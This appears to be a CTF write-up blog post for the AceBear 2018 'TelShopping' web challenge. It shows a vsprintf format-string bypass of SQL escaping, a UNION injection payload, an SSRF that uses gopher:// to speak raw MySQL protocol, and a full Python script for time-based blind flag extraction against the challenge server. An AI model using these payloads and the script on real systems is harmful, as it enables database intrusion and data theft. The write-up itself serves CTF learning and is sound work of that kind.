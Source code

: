 ```yaml
---
layout: post
title: TelShopping
category: AceBear 2018
---
```



So lets continue with the most hard task in this ctf , suggest you to try it , its still up for some days 

Ok the task was about web store , so you can buy some Tet as the task name :p 
![image](https://user-images.githubusercontent.com/7364615/35495325-aeef2cf4-04c0-11e8-86f0-f052c75800f8.png)

The orgz put also source code so we can check and and look for vuln part  `http://128.199.179.156/src.tar.gz`

Lets start look at the code and try to get it :D

Later , we can see that there is some place where we can control it 

![image](https://user-images.githubusercontent.com/7364615/35495452-40e69278-04c1-11e8-91d8-6ebf64cd8975.png)

`$_GET['uid']` was passed directly to the query , but thats was not so easy guys :p , there was filter for sure :D 

![image](https://user-images.githubusercontent.com/7364615/35495516-8042b1e0-04c1-11e8-94b7-743351c9c730.png)

`mysqli_real_escape_string` was here waiting for us , but there is little mistake here make all code weak 

![image](https://user-images.githubusercontent.com/7364615/35495681-6aa36d6a-04c2-11e8-956b-fd649c4cacd9.png)

So here vsprintf work as in C ,we can exploit it like format string 

So let me show my friend final exploit which maked us enable to manage the sqli and control it 100%

`
%1$c and 1=2 union select 1,2,0x66496c653a2f2f2f7661722f7777772f68746d6c2f6f6b2e6a7067 -- -
`

`
PS : 0x66496c653a2f2f2f7661722f7777772f68746d6c2f6f6b2e6a7067 = fIle:///var/www/html/ok.jpg 
`

So let me explain this payload to make it easy for you 

Here we have 

`
$prepare_qr = $jdb->addParameter("SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid=%s",  $_GET['uid']);
$prepare_qr = $jdb->addParameter($prepare_qr.' and user=%s', $username);
$result = $jdb->fetch_assoc($prepare_qr);
`

means here if we manipulate it we can inject quote without make the filter remove it 

As we have `vsprintf`, we can send %c and convert any ASCII code to char 

`
%c - The character according to the ASCII value
`

means if our username : %1$c it will put ASCII code in our query but converted to char 

`
39 = > '
`

and thats all what we need to make the bypass here 

This is the normal query , notice in the code we have 2x prepares  of this query , which make us manipulate the gid again :D 

`
SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid='%s' and user='%s';
`

Lets see Hacker query :D

Note first the username:

```
Username : 39 /*test*/ 

(39 already used :D  , test as comment so its 39 only in final query)
```

`
SELECT goods.name, goods.description, goods.img from goods inner join info on goods.uid=info.gid where gid='%1$c and 1=2 union select 1,2,0x66496c653a2f2f2f7661722f7777772f68746d6c2f6f6b2e6a7067 -- -' and user='39 /*test*/';
`

Here %1$c will be replaced by 39 and as we used %c it will do the job for us :D , so it will be single quote HaHa

And here the SQL done ! next please :D 

For sure we cant extract the flag from database usign just SQLI, because the user used here have just access to on database and not flag database

![image](https://user-images.githubusercontent.com/7364615/35496299-bd177d72-04c5-11e8-8dba-84c3ce376e40.png)

So we have 3 column extracted from the database, the 3rd one is sended to watermark_me, lets take a look at it

![image](https://user-images.githubusercontent.com/7364615/35496319-e35a5f0e-04c5-11e8-8d26-25ca499a8b3a.png)

It just do some image stuff , but our input sended to get_data which end us to exploit SSRF :D WHAT A DAY

OK, here we will use the SSRF to extract flag from database using the use already with privilege ,which is fl4g_m4n4g3r as mention in code

To do this we need to communicate with mysql , gopher can do this for us

So what we will do to make this as fast as we can , is the setup all this locally and check mysql traffic using

`
tcpdump -i lo -n dst port 3306 -w mysql.pcap
`

Then we just check the packet and make use it to exploit this last step 

unfortunately in our exploit we was missing the QUIT request ,then we notice that and make the exploit work perfectly

Here we choice to make `time based blind sql injection` 

Here is the final exploit 

```
#!/bin/bash
import struct 
import binascii
from binascii import hexlify
import requests
import time

cookies = {
    'PHPSESSID': '5icps1lfga9oqrsr5enundodv6',
}

auth = bytearray([0xb6, 0x0, 0x0,0x1,0x05, 0xa2, 0x3f, 0x00,0x00,0x00,0x00,0x01,0x08,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x00] 
    + list(b'fl4g_m4n4g3r') + [0x00,0x00,0x6d,0x79,0x73,0x71,0x6c,0x5f,0x6e,0x61,0x74,0x69,0x76,0x65,0x5f,0x70,0x61,0x73,0x73,0x77,0x6f,0x72,0x64,0x00,0x71,0x03,0x5f,0x6f,0x73,0x10,0x64,0x65,0x62,0x69,0x61,0x6e,0x2d,0x6c,0x69,0x6e,0x75,0x78,0x2d,0x67,0x6e,0x75,0x0c,0x5f,0x63,0x6c,0x69,0x65,0x6e,0x74,0x5f,0x6e,0x61,0x6d,0x65,0x08,0x6c,0x69,0x62,0x6d,0x79,0x73,0x71,0x6c,0x04,0x5f,0x70,0x69,0x64,0x05,0x31,0x30,0x37,0x30,0x35,0x0f,0x5f,0x63,0x6c,0x69,0x65,0x6e,0x74,0x5f,0x76,0x65,0x72,0x73,0x69,0x6f,0x6e,0x06,0x35,0x2e,0x36,0x2e,0x33,0x30,0x09,0x5f,0x70,0x6c,0x61,0x74,0x66,0x6f,0x72,0x6d,0x06,0x78,0x38,0x36,0x5f,0x36,0x34,0x0c,0x70,0x72,0x6f,0x67,0x72,0x61,0x6d,0x5f,0x6e,0x61,0x6d,0x65,0x05,0x6d,0x79,0x73,0x71,0x6c])

def encode(s):
    return ''.join(map(lambda x: "%{:02x}".format(x), list(s)))

flag = ""
while True:
    for i in "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_!":
        cmd_arr = list(b"select flag from flag.flag where flag like '"+flag+i+"%' and sleep(5)")
        res = len(cmd_arr)+1
        cmd = struct.pack("<b", res) + bytearray([ 0x0, 0x0, 0x0, 0x03] + cmd_arr )
        quit_packet = bytearray([0x1, 0x0, 0x0, 0x0, 0x1])
        ddd = b"gopher://localhost:3306/A" + bytes(encode(auth + cmd + quit_packet))
        payload = "0x"+binascii.b2a_hex(ddd)
        t1 = time.time()
        url = "http://128.199.179.156/info.php?uid=%1$c%20and%201=2%20union%20select%201,2,"+payload+"%20--%20-"
        response = requests.get(url, cookies=cookies)
        t2 = time.time()
        if (t2 - t1) > 4.30:
            flag += i
            break
        print "time : "+str(t2 - t1)
        
    print flag

```
And the result :D 

![image](https://user-images.githubusercontent.com/7364615/35496852-0928447e-04c8-11e8-84b9-c83be6757662.png)

it was valid url , which give us the flag 

`
https://tinyurl.com/y9pplum3
`

![image](https://user-images.githubusercontent.com/7364615/35496901-3ba9a3b6-04c8-11e8-91c4-7292bc01d1dc.png)






